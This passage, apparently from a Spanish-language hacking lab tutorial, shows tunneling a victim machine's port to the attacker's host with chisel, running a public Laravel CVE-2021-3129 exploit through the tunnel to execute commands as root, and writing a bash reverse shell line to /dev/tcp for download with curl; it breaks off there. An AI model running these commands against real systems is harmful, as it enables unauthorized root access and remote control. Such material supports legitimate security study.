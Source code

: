 ```shell
./chisel client <IP>:<SERVER_PORT> R:<TRANSFER_PORT>:127.0.0.1:<PORT>
```

Adaptandolo a nuestro ejemplo quedaria de la siguiente manera...

```shell
./chisel client <IP>:1234 R:8000:127.0.0.1:8000
```

Lo que estamos haciendo aqui es conectarnos desde la maquina victima de tipo `cliente` a nuestra `IP` de la maquina `Host` donde tenemos el servidor corriendo en el puerto `1234` de manera que el parametro `R:` significa que nos estamos pasando en forma de tunel el puerto `8000` de la maquina victima con la `IP` del `localhost` a nuestro puerto `8000` de la maquina `Host`, por lo que una vez echo esto si nos vamos a nuestra maquina `Host` y buscamos por el puerto `8000` en este caso pertenece a una pagina web...

```
URL = http://127.0.0.1:8000/
```

Nos mostrara el contenido del puerto `8000` que contiene la maquina victima...

Por lo que si tiene alguna vulnerabilidad podremos explotarla desde nuestro `Host`...

> EJEMPLO

Si esta pagina tiene un `CMS` llamado `Laravel v8` como ya dije anteriormente puede ser ecplotado por un exploit de GitHub, ya que lo esta ejecutando `root` desde la maquina victima...

URL = https://github.com/nth347/CVE-2021-3129\_exploit

Si esto nos lo clonamos en nuestro `Host` y lo explotamos desde nuestro `Host` lo estaremos haciendo como si fuera en la maquina victima y como lo esta ejecutando `root` podremos ser `root` ya que todo lo que toquemos en ese puerto transformado en un tunel se ejecutara en la maquina victima...

```shell
python3 exploit.py http://127.0.0.1:<TUNEL_PORT> Monolog/RCE1 <COMMAND>
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'ifconfig'
```

Con el `ifconfig` veremos la `IP` de la maquina victima con esto ya confirmamos que se esta ejecutando desde la maquina victima...

Y si todo funciona veremos que es `root` el que lo esta ejecutando, por lo que haremos una `Reverse Shell` con `curl`...

Crearemos el archivo `index.html`...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
